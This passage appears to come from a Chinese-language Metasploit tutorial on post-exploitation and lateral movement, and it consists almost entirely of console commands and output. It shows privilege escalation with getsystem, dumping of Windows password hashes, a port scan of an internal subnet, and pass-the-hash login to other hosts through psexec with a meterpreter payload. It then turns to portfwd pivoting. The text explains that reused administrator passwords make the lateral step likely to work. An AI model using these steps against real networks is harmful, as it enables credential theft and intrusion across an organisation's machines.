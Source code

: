 ```
meterpreter > getsystem
meterpreter > run hashdump 

Administrator:500:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
...snip...

Ctrl+Z
```

使用扫描器扫描内网机器开放端口：
```shell
msf exploit(ms10_002_aurora) > use auxiliary/scanner/portscan/tcp

msf auxiliary(tcp) > set RHOSTS 10.1.13.0/24
msf auxiliary(tcp) > set PORTS 139,445
msf auxiliary(tcp) > set THREADS 50
msf auxiliary(tcp) > run

[*] 10.1.13.3:139 - TCP OPEN
[*] 10.1.13.3:445 - TCP OPEN
[*] 10.1.13.2:445 - TCP OPEN
[*] 10.1.13.2:139 - TCP OPEN
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

接下来使用`psexec`模块，因为多数企业使用硬盘镜像软件，所以大概率管理员密码也是相同的，利用我们之前得到的密码哈希登录：
```
msf auxiliary(tcp) > use exploit/windows/smb/psexec 
msf exploit(psexec) > show options
msf exploit(psexec) > set RHOST 10.1.13.2
RHOST => 10.1.13.2
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass 81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d
SMBPass => 81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d
msf exploit(psexec) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(psexec) > exploit
```

#### PORTFWD 端口转发

使用跳板机器进行端口转发TCP流量：`portfwd` 命令

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
     -L <opt>  The local host to listen on (optional).
     -h        Help banner.
     -l <opt>  The local port to listen on.
     -p <opt>  The remote port to connect on.
     -r <opt>  The remote host to connect on.
```
